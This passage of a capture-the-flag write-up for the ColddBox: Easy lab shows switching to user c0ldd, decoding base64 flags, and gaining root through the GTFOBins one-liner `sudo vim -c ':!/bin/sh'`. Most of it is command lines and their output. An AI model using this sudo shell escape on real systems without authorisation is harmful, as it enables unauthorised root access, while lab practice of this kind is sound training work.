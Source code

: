 - Now switch to user `c0ldd` and read the flag.

  ```
  www-data@ColddBox-Easy:/var/www/html$ su c0ldd
  Password: 
  c0ldd@ColddBox-Easy:/var/www/html$ whoami
  c0ldd
  
  c0ldd@ColddBox-Easy:/var/www/html$ id
  uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
  
  c0ldd@ColddBox-Easy:/var/www/html$ cat /home/c0ldd/user.txt 
  RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
  
  echo 'RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==' | base64 -d
  Felicidades, primer nivel conseguido! 
  
  Congratulations, first level achieved!
  ```

- Actually, encoded string is the flag lol. Moving to escalation.

---

## 👑 Root Privilege Escalation

- After running `sudo -l`, it gave me 3 different options, I chose `vim` for escalation. One-liner can be found on GTFOBins.

  ```
  c0ldd@ColddBox-Easy:/var/www/html$ sudo -l 
  [sudo] password for c0ldd: 
  Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
      (root) /usr/bin/vim
      (root) /bin/chmod
      (root) /usr/bin/ftp

  sudo vim -c ':!/bin/sh'    

    (rootescriba «:help version7<Intro>» para información de la versión# whoami
  root(root) /usr/bin/ftp
  # ldd@ColddBox-Easy:/var/www/html$ sudo vim -c ':!/bin/sh'
  # cat /root/root.txt
  wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
  ```
  
- Yeah, vim will kinda destroy your terminal but you can still get the flag. Congratulations!

  ```
  echo 'wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=' | base64 -d    
  ¡Felicidades, máquina completada! 
  
  Congratulations, machine completed!
  ```
